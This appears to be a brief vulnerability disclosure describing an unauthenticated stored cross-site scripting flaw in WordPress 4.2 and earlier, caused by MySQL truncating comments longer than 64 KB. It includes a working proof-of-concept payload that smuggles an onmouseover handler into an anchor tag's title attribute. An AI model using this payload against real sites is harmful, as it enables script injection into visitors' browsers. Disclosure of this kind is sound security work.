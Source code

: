 #Unauthenticated Stored Cross-Site Scripting

1. Write up
  There is a vulnerability in Wordpress where when you comment on a post that is 64 kilobytes long in text.
  In MySql when text that is more than 64 kilobytes the input is truncated leaving malformed html tags.
  this allows for any attributes to be supplied within the tag including XSS injections

2. Proof of Concept
  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>

3. Class of vulnerability
  CWE-79
  https://cwe.mitre.org/data/definitions/79.html

4. Vulnerable Versions
  Confirmed vulnerable: WordPress 4.2, 4.1.2, 4.1.1, 3.9.3.
  Tested with MySQL versions 5.1.53 and 5.5.41.

  
